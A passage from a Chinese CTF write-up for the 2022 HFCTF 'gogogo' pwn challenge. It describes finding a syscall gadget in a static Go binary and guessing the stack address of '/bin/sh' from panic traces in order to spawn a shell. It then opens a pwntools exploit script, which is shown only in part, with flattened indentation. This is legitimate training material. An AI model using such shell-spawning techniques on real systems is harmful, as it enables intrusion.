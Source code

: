 然后看一下保护，发现基本上啥都没有

因为go是静态编译的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/16.png)

我们能直接找到syscall函数，仔细一看，哦吼，rdi，rsi，rdx，rax都自动帮你整好了

特别省事

现在问题就差输入 '/bin/sh'了。还要传入它的地址。'/bin/sh'是放入栈中的，我们不知道栈地址，怎么办呢？

但是溢出点就这一个，已经没有其他东西了

这时候死马当活马医，先写个payload进去

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/17.png)


果不其然它报错了。但是go报错会打印出一堆的栈信息。

我们可以看到栈的地址，大概是在哪个位置，我们写一个大概的值

让它去撞就行了

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/18.png)

最后附上完整的exp

    from pwn import *

    import time

    context.log_level='debug'

    io = process("./gogogo")



    def guessTrainner():

    start =time.time()

    answerSet=answerSetInit(set())

    for i in range(7):

        inputStrMax=suggestedNum(answerSet,100)

        print('第%d步----' %(i+1), end="")

        print('尝试：' +inputStrMax, end="")

        print('----', end="")

        AMax,BMax = compareAnswer_send(inputStrMax)

        print('反馈：%dA%dB' % (AMax, BMax), end="")

        print('----', end="")

        print('排除可能答案：%d个' % (answerSetDelNum(answerSet,inputStrMax,AMax,BMax)))

        answerSetUpd(answerSet,inputStrMax,AMax,BMax)
